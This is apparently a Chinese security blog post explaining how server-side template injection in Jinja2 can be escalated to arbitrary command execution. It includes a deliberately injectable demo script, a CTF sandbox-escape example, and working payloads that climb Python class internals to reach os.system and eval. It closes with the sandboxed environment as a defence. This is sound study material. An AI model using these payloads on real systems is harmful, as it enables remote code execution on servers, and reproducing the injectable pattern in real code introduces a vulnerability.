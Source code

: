 ```yaml
---
layout: post
title: "利用 Python 特性在 Jinja2 模板中执行任意代码"
tags: [web, security, ssti]
---
```


本文源于老外 [@nvisium](https://twitter.com/nvisium) 在其博客发表的博文 [《Injecting Flask》](https://nvisium.com/blog/2015/12/07/injecting-flask/)，在原文中作者讲解了 Python 模板引擎 [Jinja2](http://jinja.pocoo.org/) 在服务端模板注入 (SSTI) 中的具体利用方法，在能够控制模板内容时利用环境变量中已注册的用户自定义函数进行恶意调用或利用渲染进行 XSS 等。

对于 Jinja2 模板引擎是否能够在 SSTI 的情况下直接执行命令原文并没有做出说明，并且在 Jinja2 官方文档中也有说明，模板中并不能够直接执行任意 Python 代码，这样看来在 Jinja2 中直接控制模板内容来执行 Python 代码或者命令似乎不太可能。

### 一、模板中复杂的代码执行方式

最近在进行项目开发时无意中注意到 Jinja2 模板中可以访问一些 Python 内置变量，如 `[]` `{}` 等，并且能够使用 Python 变量类型中的一些函数，示例代码一如下：

```python
# coding: utf-8
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
print template.render()
```

为了方便演示，这里直接将命令参数输入拼接为模板内容的一部分并进行渲染输出，这里我们直接输入 `{% raw %}{{ 'abcd' }}{% endraw %}` 使模板直接渲染字符串变量：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/1.png)

当然上面说了可以在模板中直接调用变量实例的函数，如字符串变量中的 `upper()` 函数将其字符串转换为全大写形式：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/2.png)

那么如何在 Jinja2 的模板中执行 Python 代码呢？如官方的说法是需要在模板环境中注册函数才能在模板中进行调用，例如想要在模板中直接调用内置模块 `os`，即需要在模板环境中对其注册，示例代码二如下：

```python
# coding: utf-8
import os
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
template.globals['os'] = os

print template.render()
```

执行代码，并传入参数 `{% raw %}{{ os.popen('echo Hello RCE').read() }}{% endraw %}`，因为在模板环境中已经注册了 `os` 变量为 Python `os` 模块，所以可以直接调用模块函数来执行系统命令，这里执行额系统命令为 `echo Hello Command Exection`：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/3.png)

如果使用示例代码一来执行，会得到 `os` 未定义的异常错误：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/4.png)

### 二、利用 Python 特性直接执行任意代码

那么，如何在未注册 `os` 模块的情况下在模板中调用 `popen()` 函数执行系统命令呢？前面已经说了，在 Jinja2 中模板能够访问 Python 中的内置变量并且可以调用对应变量类型下的方法，这一特点让我联想到了常见的 Python 沙盒环境逃逸方法，如 2014CSAW-CTF 中的一道 Python 沙盒绕过题目，环境代码如下：

```python
#!/usr/bin/env python 
from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [  
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()  
targets.remove('raw_input')  
targets.remove('print')  
for x in targets:  
    del __builtins__.__dict__[x]

while 1:  
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

（利用 Python 特性绕过沙盒限制的详细讲解请参考 [Writeup](https://hexplo.it/escaping-the-csawctf-python-sandbox/)），这里给出笔者改进后的 PoC：

```python
[c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo Hello SandBox')
```

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/5.png)

当然通过这种方式不仅仅能够通过 `os` 模块来执行系统命令，还能进行文件读写等操作，具体的代码请自行构造。

回到如何在 Jinja2 模板中直接执行代码的问题上，因为模板中能够访问 Python 内置的变量和变量方法，并且还能通过 Jinja2 的模板语法去遍历变量，因此可以构造出如下模板 Payload 来达到和上面 PoC 一样的效果：

{% raw %}
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
```
{% endraw %}

使用该 Payload 作为示例代码二的执行参数，最终会执行系统命令 `id`：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/6.png)

当然除了遍历找到 `os` 模块外，还能直接找回 `eval` 函数并进行调用，这样就能够调用复杂的 Python 代码。

原始的 Python PoC 代码如下：

```python
[a for a in [b for b in [c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals.values() if type(b) == dict] if 'eval' in a.keys()][0]['eval']('__import__("os").popen("whoami").read()')
```

在 Jinja2 中模板 Payload 如下：

{% raw %}
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.func_globals.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
{% endraw %}

使用该 Payload 作为示例代码二的执行参数（注意引号转义），成功执行会使用 `eval()` 函数动态载入 `os` 模块并执行命令：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/7.png)

### 三、利用途径和防御方法

SSTI（服务端模板注入）。通过 SSTI 控制 Web 应用渲染模板（基于 Jinja2）内容，可以轻易的进行远程代码（命令）执行。当然了，一切的前提都是模板内容可控，虽然这种场景并不常见，但难免会有程序员疏忽会有特殊的需求会让用户控制模板的一些内容。

在 Jinja2 模板中防止利用 Python 特性执行任意代码，可以使用 Jinja2 自带的沙盒环境 `jinja2.sandbox.SandboxedEnvironment`，Jinja2 默认沙盒环境在解析模板内容时会检查所操作的变量属性，对于未注册的变量属性访问都会抛出错误。

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/8.png)

### 参考

* [https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
* [https://nvisium.com/blog/2015/12/07/injecting-flask/](https://nvisium.com/blog/2015/12/07/injecting-flask/)
* [https://hexplo.it/escaping-the-csawctf-python-sandbox/](https://hexplo.it/escaping-the-csawctf-python-sandbox/)

